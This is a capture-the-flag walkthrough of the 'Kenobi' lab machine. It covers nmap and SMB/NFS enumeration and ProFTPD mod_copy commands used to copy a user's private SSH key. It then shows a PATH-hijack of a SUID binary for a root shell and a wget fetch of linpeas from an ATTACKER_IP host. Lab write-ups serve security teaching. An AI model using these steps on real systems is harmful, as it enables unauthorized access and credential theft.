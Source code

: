 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

We start things off with a basic **Nmap** scan on the server. we can run 2 nmap scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that **7** ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 (Samba)**, **445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, **3** shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`. I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to authenticate.

We can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a text file: **log.txt**

**log.txt** was a **ProFTPD** configuration file which gave us a lot of interesting and potentially useful information about the server. Let's take note of this file for now.

Next, let's tackle port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to the **network file system (NFS)**. We can use nmap to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's revisit the **FTP** server.

The first thing we should do is to enumerate the version of ProFtpd running. To obtain the version, we can use `nc` to connect to the FTP server:

```
nc 10.10.243.180 21
```

From the response, we know that the ProFtpd version is **1.3.5**

---

Now that we know the version of ProFtpd running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit proftpd 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFtpd. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

From the **log.txt** file earlier, I found out that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can copy the private key over to this mount point, mount our local machine and use it to obtain the private key! This will then allow us to access the machine via SSH as the user kenobi.

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. The room taught me how to use the `find` command to find files that have the SUID-bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to try using a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), to speed things up.

To transfer linpeas over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the **linpeas.sh** script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port **8000**. Next, on the target machine, I used `wget` to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting file that had its SUID-bit set - **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set).

Using the command `strings`, we can look for human-readable strings within the menu binary.

**Results:**

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. not using `/usr/bin/curl` or `/usr/bin/uname`).

Hence, we can manipulate our **PATH** to exploit this fact and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is accessible by all users:

```
chmod 777 curl
```

Next, we put its location into our **PATH**. In my case, since I created the `curl` file in **/tmp**, I'll add that directory into the PATH:

```
export PATH=/tmp:$PATH
```

Now, when `/usr/bin/menu` is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. It will end up using the curl binary that we created earlier on in /tmp, which actually opens a shell! 

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from the **/root**.





